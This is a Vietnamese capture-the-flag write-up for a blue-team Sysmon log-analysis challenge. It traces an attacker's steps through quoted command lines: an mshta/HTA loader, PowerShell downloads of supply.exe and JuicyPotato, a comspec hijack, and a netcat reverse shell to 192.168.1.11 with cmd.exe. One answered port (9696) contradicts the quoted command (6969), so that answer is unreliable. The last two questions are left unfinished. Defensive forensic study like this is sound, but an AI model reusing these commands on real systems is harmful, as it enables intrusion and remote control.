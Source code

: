 ## Description
> You are provided with Sysmon logs from a compromised endpoint. Analyse the logs to find out the steps and techniques used by the attacker.
## Link challenge
> https://blueteamlabs.online/home/challenge/log-analysis-sysmon-fabcb83517
## Solution
> ***What is the file that gave access to the attacker?***

- Đầu tiên em xem xét qua tất cả các phần của file, thấy rằng nó có lưu các lệnh cmd.
- Theo dõi thì thấy có 1 lệnh cmd đáng ngờ.
```
      "CommandLine": "\"C:\\Windows\\SysWOW64\\mshta.exe\" \"C:\\Users\\IEUser\\Downloads\\updater.hta\" {1E460BD7-F1C3-4B2E-88BF-4E770A288AF5}{1E460BD7-F1C3-4B2E-88BF-4E770A288AF5} "

    "C:\Windows\SysWOW64\mshta.exe": Đây là đường dẫn đến chương trình Microsoft HTML Application Host (mshta.exe). Nó được sử dụng để chạy các tệp HTA, về cơ bản là các ứng dụng HTML có thể truy cập các tài nguyên hệ thống.
    "C:\Users\IEUser\Downloads\updater.hta": Đây là đường dẫn đến tệp HTA cụ thể được thực thi, có tên là "updater.hta" và nằm trong thư mục Downloads của người dùng IEUser. Cái tên "updater" gợi ý rằng tệp này có thể liên quan đến việc cập nhật một chương trình nào đó.
    {1E460BD7-F1C3-4B2E-88BF-4E770A288AF5}{1E460BD7-F1C3-4B2E-88BF-4E770A288AF5}: Đây là hai chuỗi giống hệt nhau, có thể là GUID (Globally Unique Identifiers) hoặc một dạng mã định danh khác. Mục đích chính xác của chúng trong lệnh này không rõ ràng, nhưng chúng có thể được sử dụng để truyền thông tin đến ứng dụng HTA hoặc liên kết nó với một quy trình cụ thể.
```

> A : updater.hta

> ***What is the powershell cmdlet used to download the malware file and what is the port?***

- Tiếp tục tìm với command em bắt gặp 1 lệnh như thế này 
``` "CommandLine": "powershell  -c INvoke-WebRequest -Uri http://192.168.1.11:6969/supply.exe -OutFile C:\\Windows\\Temp\\supply.exe"```
- Bắt đầu lệnh powershell tạo 1 kết nối tới web thông qua `-c INvoke-WebRequest` và tải xuống tệp `http://192.168.1.11:6969/supply.exe` và lưu tại `C:\\Windows\\Temp\\supply.exe`
> A : INvoke-WebRequest, 9696

> ***What is the name of the environment variable set by the attacker?***
- Tiếp tục với dòng command bên dưới `"CommandLine": "cmd  \\c set comspec=C:\\windows\\temp\\supply.exe"`
- `set comspec` : tạo 1 biến môi trường cho `C:\\windows\\temp\\supply.exe`
> A : comspec=C:\\windows\\temp\\supply.exe

> ***What is the process used as a LOLBIN to execute malicious commands?***

- Đầu tiên, lolbin là gì ?
```
LOLBin là một kỹ thuật mà tin tặc sử dụng để thực hiện các cuộc tấn công vào hệ thống bằng cách sử dụng các chương trình (tệp thực thi hoặc tệp nhị phân) đã được cài đặt trên hệ thống đó. Các chương trình này không độc hại nên được quản trị viên hệ thống hoặc người dùng nâng cao tin cậy.

Tin tặc thực hiện các hành động độc hại mà không gây nghi ngờ bằng cách lợi dụng các chương trình đáng tin cậy này. Điều này cho phép chúng vượt qua các biện pháp bảo mật được thiết kế để phát hiện và ngăn chặn phần mềm độc hại — vì tin tặc không cần đưa phần mềm hoặc công cụ bổ sung vào hệ thống của nạn nhân.
```
- Trong quá trình đặt biến môi trường có 1 process thực thi cùng đó là ftp.exe
```
  "Image": "C:\\Windows\\SysWOW64\\ftp.exe",
      "IntegrityLevel": "Medium",
      "LogonGuid": "747F3D96-DE82-6094-7713-0F0000000000",
      "LogonId": "0xf1377",
      "OriginalFileName": "ftp.exe",
      "ParentCommandLine": "cmd  \\c set comspec=C:\\windows\\temp\\supply.exe",
      "ParentImage": "C:\\Windows\\SysWOW64\\cmd.exe",
      "ParentProcessGuid": "747F3D96-3099-6095-D204-000000001D00",
      "ParentProcessId": 6844,
      "ProcessGuid": "747F3D96-310F-6095-DB04-000000001D00",
      "ProcessId": 6120,
      "Product": "Microsoft
```
> A : ftp.exe

> ***Malware then downloads a new file, find out the full url of the file download***
- Tại câu hỏi đầu tiên hacker thực thi lệnh và tải về file tại `"CommandLine": "C:\\windows\\temp\\supply.exe /c \"powershell -c INvoke-WebRequest -Uri https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe -OutFile C:\\Windows\\Temp\\juice.exe\"\n",`
> A : https://github.com/ohpe/juicy-potato/releases/download/v0.1/JuicyPotato.exe

> ***What is the port the attacker attempts to get reverse shell?***
- Sau khi tải xuống hacker tạo reverse shell  bằng netcat tại 192.168.1.11 và port 9898 `"CommandLine": "C:\\windows\\temp\\supply.exe /c \"juicy.exe -l 9999 -p nc.exe -a \"192.168.1.11 9898 -e cmd.exe\" -t t -c {B91D5831-B1BD-4608-8198-D72E155020F7}\"\n",`

> ***Malware executed multiple same commands at a time, what is the first command executed?***
> ***Looking at the dependency events around the malware, can you able to figure out the language, the malware is written***
=> Chưa hoàn thành





